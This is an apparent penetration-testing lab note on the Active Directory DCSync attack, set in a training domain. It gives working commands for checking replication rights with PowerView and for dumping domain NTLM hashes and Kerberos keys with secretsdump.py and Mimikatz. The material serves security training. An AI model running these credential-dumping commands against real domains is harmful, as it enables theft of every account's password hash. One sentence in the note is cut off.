 # DCSync 
DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The crux of the attack is requesting a Domain Controller to replicate passwords via the DS-Replication-Get-Changes-All extended right. This is an extended access control right within AD, which allows for the replication of secret data.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

## Using Get-DomainUser to View adunn's Group Membership
```
PS > Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```

## Using Get-ObjectAcl to Check adunn's Replication Rights
```
PS > $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS > Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

## Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py
```
$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
$ secretsdump.py -outputfile inlanefreight_hashes <DOMAIN>/<USER>:<PASSWORD>@<DC_IP> 
```
We can use the -just-dc-ntlm flag if we only want NTLM hashes or specify -just-dc-user <USERNAME> to only extract data for a specific user. Other useful options include -pwd-last-set to see when each account's password was last changed and -history if we want to dump password history, which may be helpful for offline password cracking or as supplemental data on domain password strength metrics for our client. The -user-status is another helpful flag to check and see if a user is disabled. We can dump the NTDS data with this flag and then filter out disabled users when providing our client with password cracking statistics to ensure that data such as:

If we check the files created using the -just-dc flag, we will see that there are three: one containing the NTLM hashes, one containing Kerberos keys, and one that would contain cleartext passwords from the NTDS for any accounts set with reversible encryption enabled.

## Using runas.exe
```
> runas /netonly /user:INLANEFREIGHT\adunn powershell
```

### Performing the Attack with Mimikatz
```
PS > .\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```